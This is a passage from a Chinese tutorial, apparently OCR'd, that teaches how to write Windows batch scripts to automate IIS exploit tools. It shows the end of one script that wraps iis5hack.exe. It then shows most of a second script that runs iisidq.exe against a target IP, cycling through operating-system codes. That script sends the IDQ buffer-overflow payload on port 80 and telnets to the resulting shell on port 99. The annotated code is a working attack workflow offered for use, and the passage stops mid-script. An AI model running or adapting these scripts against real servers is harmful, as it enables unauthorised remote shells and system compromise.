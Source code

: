 ECHO 中文: 0
ECHO 中文+sp1: 1
ECHO 英文: 2
ECHO 英文+sp1: 3
ECHO 日语: 4
ECHO 日语+sp1: 5
ECHO 韩文: 6
ECHO 韩文+sp1: 7
ECHO 墨西哥语: 8
ECHO 墨西哥语+sp1: 9
goto exit /*跳转exit段
:file /*file段显示文件没有发现的信息
echo 文件iis5hack.exe没有发现!程序终止运行!
goto exit /*跳转exit段
:help /*help段显示本批处理的使用格式帮助
echo 本程序用法如下:
echo iis [目标ip]
echo iis [目标ip] [开始的号码9-0]
:exit /*exit段为程序出口
这个批处理基本没有什么循环只是一路走下来。所以代码比较长难度不大！

例二
这个例子是用iisidq.exe对有idq漏洞的机器进行溢出的批处理。使用的程序有iisidq.exe和系统自带的程序telnet.exe。iisidq.exe的用法如下：
运行参数: 操作系统类型 目的地址 web埠 1 溢出监听埠 <输入命令1>
其中,如果输入命令参数没有输入,那么,默认为:“cmd.exe”。
其中操作系统类型类型的代码范围是0-14。我们编制的批处理使用的命令格式为 程序如下：
@echo off /*同例一
if not EXIST iisidq.exe goto file /*同例一
if %1 == “” goto error /*同例一
ping %1 -n 1 | find “Received = 1” /*同例一
if errorlevel 1 goto error1 /*同例一
set b=%1 /*创建一个环境变量b,将变量%1的内容传递给环境变量b。变量b的内容以后将是目标ip
set a=0 /*创建一个环境变量a并指定环境变量a为0。由于使用整个批处理的循环所以用a来做计数器。
:no /*no段开始
if %a%==0 set d=0 /*如果环境变量a=0则创建环境变量d设定环境变量d=0。
if %a%==1 set d=1 /*环境变量d其实是操作系统类型代码，用计数器来控制其
if %a%==2 set d=2 /*变动。
if %a%==3 set d=3
if %a%==4 set d=4
if %a%==5 set d=5
if %a%==6 set d=6
if %a%==7 set d=7
if %a%==9 set d=9
if %a%==10 set d=13
if %a%==11 set d=14
goto 0 /*变量传递完成后转到标志0处运行
:1
echo 正在执行第%d%项!与目标%b%不能连接!正在尝试连接请等候…
:0 /*标志0开始
IISIDQ %d% %b% 80 1 99 |find “good” /*按格式发送溢出命令并在结果中发现字符串good（发送代码成功才会有字符串good）
if errorlevel 1 goto 1 /*如果没有good字符串则没有发送成跳
/*转标志1处继续尝试发送
ping 127.0.0.1 -n 8 >nul /*ping自己8次相当于延时8秒不显示执
/*行结果
echo 正在执行第%d%项! /*报告正在溢出的操作系统类型
telnet %b% 99 /*连接溢出埠
echo. /*显示一个空行
if %d%==14 goto error1 /*如果操作系统类型为14则跳转error1处（循环出口）
if %d%==13 set a=11 /*开始用计数器对操作系统代码重新附值
if %d%==9 set a=10
if %d%==7 set a=9
if %d%==6 set a=7
if %d%==5 set a=6
if %d%==4 set a=5